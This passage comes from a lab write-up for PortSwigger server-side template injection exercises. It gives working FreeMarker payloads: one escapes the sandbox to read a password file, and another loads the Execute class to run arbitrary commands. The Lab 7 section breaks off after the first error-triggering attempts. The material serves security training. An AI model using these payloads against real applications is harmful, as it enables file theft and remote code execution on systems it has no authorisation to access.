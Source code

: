 -----------------------------------------------------------------------

### Lab6: SSTI in a sandboxed environment
- After Detecting if there is an SSTI vulnerability through any payload will evaluate correctly like `${7 * 7}`, now we can identify the template by causing the error:

![sandbox_lab6](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/sandbox_lab6.png)

- Another one, It is a `freemarker` template engine(java).

```
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('File_Path').toURL().openStream().readAllBytes()?join(" ")}
```
- **We will set this path ==> /home/carlos/my_password.txt**
 
![decimal_lab6](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/decimal_lab6.png)

- The contents of file will appear as decimal ASCII code then you can convert it to raw form.
- Check out the [decimal ascci chart](https://www.asciichart.com/).
- For doing it quickly, you can use [CyberChef](https://gchq.github.io/CyberChef/)

- ##### Another Solution:
	- But you will identify the existing object in the template.
	- Here you will set the `product` object.

><#assign classloader=`object`.class.protectionDomain.classLoader>
  <#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
  <#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
  <#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
  ${dwf.newInstance(ec,null)("`Execute_any_commands_here`")}

- If you will set any object rather than the intended object, this error message will appear for you.

![missing and null object_lab6](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/missing%20and%20null%20object_lab6.png)

-----------------------------------------------------------------------

### Lab7: SSTI with a custom exploit

- I captured the requst and tried with some payloads to cause an error in the template.

![Try causing error_lab7](https://github.com/Sec0gh/Portswigger-Labs/blob/main/Server-side%20template%20injection%20Labs/images/Try%20causing%20error_lab7.png)
